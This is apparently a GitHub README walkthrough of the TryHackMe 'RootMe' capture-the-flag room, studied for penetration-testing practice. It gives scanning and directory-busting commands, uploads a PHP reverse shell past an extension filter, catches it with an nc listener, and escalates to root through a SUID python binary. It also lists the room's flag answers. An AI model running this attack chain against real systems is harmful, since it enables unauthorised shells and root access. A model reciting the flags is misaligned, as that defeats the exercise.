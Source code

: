 <h1 align="center">:fire: TryHackMe Rootme room :fire: </h1>

![preview](images/00-preview.png)<br/>

TryHackMe [Room link](https://tryhackme.com/room/rrootme)<br/>


## Task 2 Reconnaissance 
### Q: Scan the machine, how many ports are open?

    nmap -sV -sC -F 10.10.242.162

![download](images/02-scan-ip.png)<br/>

#### A: `2`

### Q: What version of Apache is running?

## See Task 2 first image.

#### A: `2.4.29`

### Q: What service is running on port 22?

## See Task 2 first image.

#### A: `ssh`

### Q: What is the hidden directory?

    sudo dirsearch --full-url -u http://10.10.242.162/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

![download](images/03-found-hidden-dir.png)<br/>

#### A: `/panel/`


## Task 3 Getting a shell 
### Q: user.txt

    ip a

![download](images/04-grep-tun0-ip.png)<br/>

Php [Reverse Shell Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)<br/>

![download](images/05-modify-ip-port.png)<br/>

![download](images/06-up-shell.png)<br/>

![download](images/07-intercept-request.png)<br/>

![download](images/08-add-to-sniper.png)<br/>

Most Common [Extension List](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/extensions-most-common.fuzz.txt)<br/>

![download](images/09-load-common-extention.png)<br/>

![download](images/10-extension-detected.png)<br/>

![download](images/11-file-uploaded.png)<br/>

    nc -lvnp 1234

![download](images/12-get-reverse-connections.png)<br/>

    cd var/www/
    cat user.txt
 
![download](images/13-user-flag-found.png)<br/>

#### A: `THM{y0u_g0t_a_sh3ll}`

## Task 4 Privilege escalation 
### Q: Search for files with SUID permission, which file is weird?

    python -c 'import pty; pty.spawn("/bin/bash")'

![download](images/14-convert-to-bash-terminal.png)<br/>

    find / -perm -u=s -type f 2>/dev/null

![download](images/16-vulnerable-target-found.png)<br/>

#### A: `/usr/bin/python`

[GTFOBins](https://gtfobins.github.io)<br/>

### Q: root.txt

    python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![download](images/17-switch-bash-terminal-and-prevescallation.png)<br/>

    cd root
    cat root.txt

![download](images/18-root-flag-founded.png)<br/>

#### A: `THM{pr1v1l3g3_3sc4l4t10n}`

<h1 align="center">:fire: Finished :fire: </h1>
